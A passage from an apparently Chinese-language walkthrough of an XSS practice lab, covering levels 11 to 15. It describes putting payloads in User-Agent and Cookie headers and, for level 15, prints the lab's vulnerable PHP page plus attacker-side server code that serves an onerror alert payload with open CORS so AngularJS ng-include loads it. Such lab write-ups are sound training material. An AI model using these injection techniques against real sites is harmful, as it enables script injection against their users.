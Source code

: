 ![](https://i.imgur.com/L9UdNBI.png)

点击方框触发 XSS！

#### 第十二关

和十一关相同，但是在 User-Agent 中传入 payload

#### 第十三关

和十一关相同，但是在 Cookie 中传入 payload

#### 第十四关

这一关环境有问题

#### 第十五关

```php
<html ng-app>
<head>
        <meta charset="utf-8">
        <script src="angular.min.js"></script>
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level16.php?keyword=test"; 
}
</script>
<title>欢迎来到level15</title>
</head>
<h1 align=center>欢迎来到第15关，自己想个办法走出去吧！</h1>
<p align=center><img src=level15.png></p>
<?php 
ini_set("display_errors", 0);
$str = $_GET["src"];
echo '<body><span class="ng-include:'.htmlspecialchars($str).'"></span></body>';
?>

```

输出点直接就在 html 页面中，但是经过了特殊函数编码。似乎好像没有办法 XSS 了？好在 ng-include 允许我们加载外部的 html 页面，所以我们可以尝试加载一个存在 XSS 的页面。值得注意的是，由于同源策略的限制，加载外部服务器的html页面的时候可能会失败。这时候需要在我们的服务器上配置返回的http头部允许跨域资源共享。

![](https://i.imgur.com/uj5UJgV.png)

从上图可以看到 ng-include 函数发起的是一个 XMLHttpRequest 请求，XMLHttpRequest 受到同源策略的限制，不能跨域访问资源。

**服务端代码**
```php
<?php
 header('Access-Control-Allow-Origin:*'); 
?>
<html>
    <img src=1 onerror="alert(123)">
</html>
```

